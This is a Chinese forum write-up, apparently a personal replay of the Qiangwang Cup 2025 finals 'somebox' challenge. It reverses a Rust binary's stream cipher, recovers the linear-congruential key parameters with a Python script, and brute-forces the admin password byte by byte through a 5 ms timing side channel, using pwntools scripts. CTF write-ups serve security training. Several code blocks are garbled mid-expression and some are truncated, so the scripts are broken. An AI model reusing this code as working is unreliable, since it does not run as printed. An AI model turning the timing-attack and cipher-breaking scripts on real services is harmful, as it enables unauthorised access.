# [CTF] 强网杯2025决赛题目复现

- 原帖: https://www.52pojie.cn/forum.php?mod=viewthread&tid=2075908
- 抓取时间: 2026-11-01T21:58:53

本篇文章作个人复现 2025 强网杯决赛赛题的记录。

## AWDU

### somebox

这道题是 `rust` 的综合题，总体难度算很高的了，并要求选手掌握很深的逆向功底，密码学技术和 `shellcode` 编写技术。



上来一串加密的数据，让人看得一脸懵逼，只能开逆了，主逻辑在 `sub_1AB40` 中，通过字符串发现一个菜单



顺着这个 `menu` 字符串可以找到关键结构



很显然，`1FA20` 就是所谓的加密函数了。



很好，非常无敌的加密，猜测一下 `a1` 的结构，如下：

```
struct encryptData
{
    __int64 k[4];
    __int64 b[4];
    __int64 key[4];
    __int64 idx;
};
```

根据加密的算法可以看出来，这是一个流式的加密，密钥递推符合如下公示：

`a[n] = k * a[n-1] + b`

其中 `k` 和 `b` 是随机生成的，其中只有 `a[0]` 是已知的，也就是该结构体 `key` 的初始值。



`v8` 对原文仅仅做了异或操作，而流式 `key` 保存在 `v6`，经过一系列的变化得到了 `v8`，在 `v6->v7` 和 `v7->v8` 的过程显然都是可逆的，那么只需要拿到异或得到的值，即可解出原 `key`。由于它四个 `key` 是轮转的，这就导致了开头的 32 字节加密是固定的，后续全部是随机。开头输出的菜单原文是已知的，也就是说，现在已知原文，密文，那么开头原文的一系列密钥是已知的，即说对于这四个数列 `key1[n]`、`key2[n]`、`key3[n]`、`key4[n]`，可以知道它们的前几项。

我们又已知数列的递推公式均满足 `key[n] = (k * key[n-1] + b) mod pow(2,64) | (n>=1)`

经过逆向把这些信息总结出来之后，就是 call 队伍里的密码学师傅了，个人认为解释的非常清楚了.



密码学师傅非常给力，很快给了我脚本，根据前几项来推测 `k` 和 `b` 的值，尽管可能有多解，实测发现多解情况随便选一组解不影响加解密。

```
# 输入：已有的若干项（无符号 64 位，Python int 足够）
from math import gcd
M = 1  有解当且仅当 dy ≡ 0 (mod M)
        return [0] if dy == 0 else []  # 特殊：dx==0 不约束 k，如果 dy==0 则任意 k 可，返回 placeholder
    g = gcd(dx, M)
    if dy % g != 0:
        return []
    # 除以 g，在模 M' 下求逆
    dxp = dx // g
    dyp = dy // g
    Mp = M // g
    # 计算 (dxp)^(-1) mod Mp
    # 使用扩展欧几里得或 pow since Mp 不是素数但 gcd(dxp, Mp)==1
    inv = pow(dxp, -1, Mp)  # Python 3.8+
    k0 = (dyp * inv) % Mp
    # 所有解为 k0 + t*Mp, t=0..g-1
    return [(k0 + t * Mp) % M for t in range(g)]

def find_k_b_from_sequence(seq):
    n = len(seq)
    if n  整个序列不可能来自同一线性映射
        # 若 dx==0 且 dy==0 意味着这三项对 k 不产生约束，继续找下一组
        if dx == 0 and dy == 0:
            continue
        # 否则 ks 为候选集合（注意：若 dx==0 and dy==0 we skipped）
        candidates = ks
        break

    # 如果一直没有约束（全部相等或每组三项都 dx==0,dy==0），处理特殊情形
    if candidates is None:
        # 所有相邻差都为0 => seq 都相同 => (k-1)*c + b ≡ 0 (mod M),无限多解
        return "ALL_EQUAL"  # 提示无限多解（或需要更多约束）

    # 验证候选，保留能让所有已知项成立的那些
    valid = []
    for k in candidates:
        b = (seq[1] - (k * seq[0])) % M
        ok = True
        for i in range(n - 1):
            if ((k * seq[i] + b) - seq[i + 1]) % M != 0:
                ok = False;
                break
        if ok:
            valid.append((k, b))
    return valid
```

把这个脚本保存为 `m.py`，可以构造交互了，因为系统会将用户输入的 `hex` 也加密一遍之后去理解含义，所以输入的时候需要进行一次加密（这个流加密可以验证加密和解密都能使用同一个函数），但是它们共享密钥生成器，所以这里需要做好分配。

初始密钥直接断函数看栈数据就行。



下面是交互脚本：

```
from pwn import *

from m import find_k_b_from_sequence

context.log_level = 'debug'

context.arch = 'amd64'

import os

import sys

from pwn import *

# from z3 import *

def ror64(value, shift, bits=64):

    """64位循环右移 - rol64的逆操作"""

    shift %= bits

    return ((value >> shift) | (value > (bits - shift))) & ((1 > 1) ^ ((v6 ^ (v6 >> 1)) >> 2) ^ ((v6 ^ (v6 >> 1) ^ ((v6 ^ (v6 >> 1)) >> 2)) >> 4) ^ (

                (v6 ^ (v6 >> 1) ^ ((v6 ^ (v6 >> 1)) >> 2) ^ ((v6 ^ (v6 >> 1) ^ ((v6 ^ (v6 >> 1)) >> 2)) >> 4)) >> 8) ^ (

                     (v6 ^ (v6 >> 1) ^ ((v6 ^ (v6 >> 1)) >> 2) ^ ((v6 ^ (v6 >> 1) ^ ((v6 ^ (v6 >> 1)) >> 2)) >> 4) ^ ((

                                                                                                                                  v6 ^ (

                                                                                                                                      v6 >> 1) ^ (

                                                                                                                                              (

                                                                                                                                                          v6 ^ (

                                                                                                                                                              v6 >> 1)) >> 2) ^ (

                                                                                                                                              (

                                                                                                                                                          v6 ^ (

                                                                                                                                                              v6 >> 1) ^ (

                                                                                                                                                                      (

                                                                                                                                                                                  v6 ^ (

                                                                                                                                                                                      v6 >> 1)) >> 2)) >> 4)) >> 8)) >> 16)

    v7 = v7 & 0xFFFFFFFFFFFFFFFF

    v7h = v7 >> 32

    v8 = rol64(v7 ^ v7h, 7)

    return v8

def inverse_xor_shift(y, k):

    """逆异或变换：从 y 恢复 x，满足 y = x ^ (x >> k)"""

    x = y

    shift = k

    while shift > shift)

        shift *= 2

    return x & 0xFFFFFFFFFFFFFFFF

def inverse_mix(v8):

    """mix 函数的逆向算法"""

    # 步骤1: 循环右移7位得到 u

    u = ror64(v8, 7)

    # 步骤2: 从 u 恢复 v7

    u_high = (u >> 32) & 0xFFFFFFFF

    u_low = u & 0xFFFFFFFF

    v7_high = u_high

    v7_low = u_low ^ u_high

    v7 = (v7_high
```

这样就可以成功和这个系统交互了，注意功能 1 并没有加密，而是直接输出，所以密钥不能轮转，事实上 1 功能在比赛中是用不到的功能。



分析登录功能，同样顺着字符串找关键位置，但是因为选手不可能手动和这个 `ELF` 交互，必须用 `pwntools`，所以需要借助 `dbg_server` 的附加功能完成调试，操作步骤为：

- 开启 `dbg_server`
- 在对应机器上使用 `pwntools` 运行程序。
- `ida` 选择进程附加

附截图，开启 `server`，运行 `exp`



调试选项选附加



选择对应的进程



然后就可以美美调试了。



根据逻辑可知，用户名必须为 `admin`，`password` 经过调试是随机生成的。



每次判断密码正确会 `sleep 5ms`，根据这个特性可以逐字节爆破。

```
def brutePassword():
    password = bytearray(16)
    current = 0
    for i in range(128):
        found = False
        for c in range(33,0x7F):
            password[current] = c
            r.sendline(encrypt(b'2').encode())
            decrypt(r.recvline()).decode()
            r.sendline(encrypt(b'admin').encode())
            decrypt(r.recvline()).decode() # enter password
            r.sendline(encrypt(password.strip(b'\x00')).encode())
            result = decrypt(r.recvline()).decode()
            pos = result.find('(')
            rpos = result.find('ms)')
            if(rpos == -1):
                print("!!!",password.strip(b'\x00'))
                return password.strip(b'\x00')
            T = int(result[pos+1:rpos])
            if(T >= 5*current +5):
                print(password.strip(b'\x00'),result,T)
                current += 1
                found = True
            if(found):
                break
        if(not found):
            password[current] = 0
            current -= 1
    return password
```

为了本地调试方便，把密码 patch 了，让它永远返回正确，因为后面才是大头。



简单粗暴点就行。

根据功能 3 找到具体执行的位置。



这里可以看到用 `mmap` 分配了权限为 7 的内存段。

